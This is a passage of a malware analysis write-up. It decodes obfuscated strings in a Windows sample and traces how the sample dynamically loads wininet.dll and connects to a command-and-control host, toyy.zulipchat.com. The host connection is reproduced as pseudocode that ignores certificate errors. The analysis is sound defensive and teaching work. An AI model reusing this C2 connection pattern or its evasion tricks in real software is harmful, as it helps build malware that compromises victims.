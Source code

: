 I can run this with the stack words and the key and get the result:

```

oxdf@hacky$ python decode.py 667b6e7b66796146 0f696b7f216160 f
Invitation.pdf

```

### Internet Activity

There’s a string, `wininet.dll` in the strings in this binary, but it’s not referenced as an import. Jumping to where it’s used, I’ll find `FUN_2ac402f20`. At the top it has another similarly obfuscated string that translates to `LdrLoadDll`, which according to [malapi.io](https://malapi.io/winapi/LdrLoadDll) is “used instead of LoadLibrary to load modules”:

![image-20240501172720186](/img/image-20240501172720186.png)

It seems this function is loading `wininet.dll`.

Stepping up to where `FUN_2ac402f20` is called in `FUN_2ac4031a0`, the result is checked and passed to `FUN_2ac402b90`:

![image-20240501173336392](/img/image-20240501173336392.png)

Stepping into `FUN_2ac402b90`, there are a bunch more encoded strings, each passed to a function to decode them, and then the result passed to `FUN_2ac4018f0` along with `param1`, which is the `wininit_module`, with the result being stored global variables:

![image-20240501191431653](/img/image-20240501191431653.png)

I’ve renamed these globals to be the decoded strings.

I’ll find references to one of the globals, and there are two each:

![image-20240501184823717](/img/image-20240501184823717.png)

The first line context is “WRITE”, which is what I was just looking at. Jumping to the “READ”, all of them land in `FUN_2ac401dc0`, which has a bunch more strings to decode and uses the functions:

![image-20240507131745117](/img/image-20240507131745117.png)

This function ends up as the following pseudocode:

```

hinternet = InternetOpenA("Curl/7.68.0", 0, 0, 0, 0)
hsession = InternetConnectA(hinternet, "toyy.zulipchat.com", 443, 0, 0, 0, INTERNET_SERVICE_HTTP, 0, 1)
hrequest = HttpOpenRequestA(hsession, param1, param2, 0, 0, 0, 0x44c03100, 1)
successful = HttpSendRequestA(hrequest, headers, len(headers), param_3, param4)
InternetReadFile(hrequest, global_buffer, 0x100000, bytes_read_buffer)

```

The flags for `HttpOpenRequestA`, 0x44c03100, are interesting, and as defined [here](https://learn.microsoft.com/en-us/windows/win32/wininet/api-flags) break down to:
- 0x40000000: **INTERNET\_FLAG\_RAW\_DATA**
- 0x04000000: **INTERNET\_FLAG\_DONT\_CACHE**
- 0x00800000: **INTERNET\_FLAG\_SECURE**
- 0x00400000: **INTERNET\_FLAG\_KEEP\_CONNECTION**
- 0x00002000: **INTERNET\_FLAG\_IGNORE\_CERT\_DATE\_INVALID**
- 0x00001000: **INTERNET\_FLAG\_IGNORE\_CERT\_CN\_INVALID**
- 0x00000100:**INTERNET\_FLAG\_PRAGMA\_NOCACHE**
